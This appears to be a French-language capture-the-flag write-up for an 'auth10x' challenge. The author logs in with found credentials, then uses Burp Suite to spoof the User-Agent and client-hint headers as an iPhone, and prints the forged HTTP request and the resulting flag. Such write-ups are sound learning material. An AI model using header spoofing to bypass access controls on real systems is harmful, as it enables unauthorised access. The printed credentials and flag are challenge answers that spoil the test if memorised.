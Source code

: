 # Solution
Une fois qu'on a le username et le password, on peut les mettre dans le login form pour s'authentifier :) </br>
#### ``LEGO-us3rn4m3-5b1706:LEGO-p4ssw0rd-f72669`` </br>
<img src="https://github.com/user-attachments/assets/f009dc4b-b589-4c00-9994-b184b7ee85f6" alt="Alt Text" width="600" height="400">  </br></br>
Ewwwww, je dois m'authentifier en tant que iPhonescrub???? NOOOOOOOOOOOOOOOOO ok well lets use Burpy to see what I can do (BurpSuite). </br></br>
<img src="https://github.com/user-attachments/assets/39aaee72-c5cd-420e-a61d-0e625d4c97dd" alt="Alt Text" width="800" height="400">  </br></br>
Ok donc on a besoin du cookie auth= et user-agent. </br>
Modifions le user-agent pour qu'il soit "User-Agent: iPhone10 iOS/15.6" </br>
(En fait si on le fait de cette facon, on va voir que si on essaie d'envoyer par Burpsuite, Tailwind va comme reset le payload donc honnêtement, j'ai disable le domain de tailwing sur le Network tab pis voilà ahahaha) </br></br>
```
GET /ok HTTP/2
Host: auth10x.chals.ageei.org
Cookie: auth=5b1706f72669
Cache-Control: max-age=0
Sec-Ch-Ua: "iPhone";v="15.6"
Sec-Ch-Ua-Mobile: ?1
Sec-Ch-Ua-Platform: "iOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: iPhone10 iOS/15.6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://auth10x.chals.ageei.org/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```
</br>
<img src="https://github.com/user-attachments/assets/f548b99c-f2ef-4d8c-9c71-e140486874aa" alt="Alt Text" width="600" height="400">  </br></br>

Flag: LEGO-us3R-4g3nt-e4d73c
